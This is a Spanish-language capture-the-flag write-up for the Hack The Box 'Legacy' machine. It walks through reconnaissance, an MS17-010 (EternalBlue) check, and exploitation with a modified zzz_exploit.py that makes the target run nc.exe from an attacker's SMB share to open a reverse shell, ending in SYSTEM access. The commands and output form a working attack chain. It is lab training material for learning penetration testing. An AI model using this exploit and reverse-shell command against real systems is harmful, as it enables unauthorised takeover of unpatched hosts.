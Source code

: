 ```yaml
---
cover: ../../../../.gitbook/assets/Legacy.png
coverY: 0
---
```


# Legacy

## Reconocimiento

Primero vamos a probar si tenemos conexión con la maquina a través de el protocolo **ICMP**

```shell
> ping -c 1 10.10.10.4
PING 10.10.10.4 (10.10.10.4) 56(84) bytes of data.
64 bytes from 10.10.10.4: icmp_seq=1 ttl=127 time=59.9 ms

--- 10.10.10.4 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 59.943/59.943/59.943/0.000 ms
```

Escaneamos todo el rango de puertos abiertos de la maquina

```shell
> nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.4

PORT    STATE SERVICE      REASON
135/tcp open  msrpc        syn-ack ttl 127
139/tcp open  netbios-ssn  syn-ack ttl 127
445/tcp open  microsoft-ds syn-ack ttl 127
```

Con los puertos abiertos vamos a escanear las versiones y lanzar scripts básicos de reconocimiento

```shell
> nmap -sCV -p135,139,445 10.10.10.4

PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h27m38s, deviation: 2h07m15s, median: 4d22h57m39s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:2d:42 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

### Puerto 445 (smb)

```shell
> crackmapexec smb 10.10.10.4
SMB         10.10.10.4      445    LEGACY           [*] Windows 5.1 (name:LEGACY) (domain:legacy) (signing:False) (SMBv1:True)
> crackmapexec smb 10.10.10.4 --shares
SMB         10.10.10.4      445    LEGACY           [*] Windows 5.1 (name:LEGACY) (domain:legacy) (signing:False) (SMBv1:True)
SMB         10.10.10.4      445    LEGACY           [-] Error enumerating shares: SMB SessionError: 0x5b
> smbclient -L 10.10.10.4 -N
session setup failed: NT_STATUS_INVALID_PARAMETER
```

Cuando intentamos enumerar no encontramos nada o falla, pero vemos que es un Windows XP y los windows ya algo antiguos suelen ser vulnerables al **eternalblue**

Vamos a buscar con **nmap** si es vulnerable al **eternalblue**

```shell
> locate .nse | xargs grep "categories" | grep -oP '".*?"' | sort -u # Filtrar categorias de los scripts
"auth"
"broadcast"
"brute"
"default"
"discovery"
"dos"
"exploit"
"external"
"fuzzer"
"intrusive"
"malware"
"safe"
"version"
"vuln"
```

Y lanzamos el conjunto de **vuln** y **safe** para el puerto **smb** para ver si es **vulnerable** al eternal blue

```shell
> nmap --script "vuln and safe" -p445 10.10.10.4

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
```

Buscamos el **ms17-010** en google y nos clonamos el repo de github y con checker.py mirara si tiene algún named pipe en estado **OK**

```shell
> git clone https://github.com/worawit/MS17-010
> cd MS17-010
> python2 checker.py 10.10.10.4
Target OS: Windows 5.1
The target is not patched

=== Testing named pipes ===
spoolss: Ok (32 bit)
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: Ok (32 bit)
```

Pues tenemos ejecución remota de comandos ahora lo que haremos es en otra ventana estar en escucha con netcat y compartir un recurso compartido por smb

```shell
> rlwrap nc -lvnp <puerto>
```

```shell
> smbserver.py smbFolder $(pwd) # Donde este el nc.exe
```

En el exploit **zzz\_exploit.py** cambiaremos la siguiente linea para poder a través de el recurso compartido ejecutar **nc.exe** en la máquina victima para poder enviar una reverse shell

```python
def smb_pwn(conn, arch):
    #smbConn = conn.get_smbconnection()
    #print('creating file c:\\pwned.txt on the target')
    #tid2 = smbConn.connectTree('C$')
    #fid2 = smbConn.createFile(tid2, '/pwned.txt')
    #smbConn.closeFile(tid2, fid2)
    #smbConn.disconnectTree(tid2)
    #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
    service_exec(conn, r'cmd /c \\<tu-ip>\smbFolder\nc.exe -e cmd <tu-ip> <tu-puerto>')
    # Note: there are many methods to get shell over SMB admin session
    # a simple method to get shell (but easily to be detected by AV) is
    # executing binary generated by "msfvenom -f exe-service ..."
```

Con todo esto echo pasemos a ejecutar el **zzz\_exploit.py**

```shell
> python2 zzz_exploit.py
zzz_exploit.py <ip> [pipe_name]
> python2 zzz_exploit.py 10.10.10.4 spoolss
Target OS: Windows 5.1
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x86135da8
SESSION: 0xe10a0390
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe1071148
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe10711e8
overwriting token UserAndGroups
Opening SVCManager on 10.10.10.4.....
Creating service VSez.....
Starting service VSez.....
The NETBIOS connection with the remote host timed out.
Removing service VSez.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```

Y recibimos la **reverse shell** con el usuario **administrador**

<pre class="language-shell"><code class="lang-shell"><strong>> rlwrap nc -lvnp 4444
</strong>listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.4] 1048
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

\> whoami
nt authority\system
</code></pre>
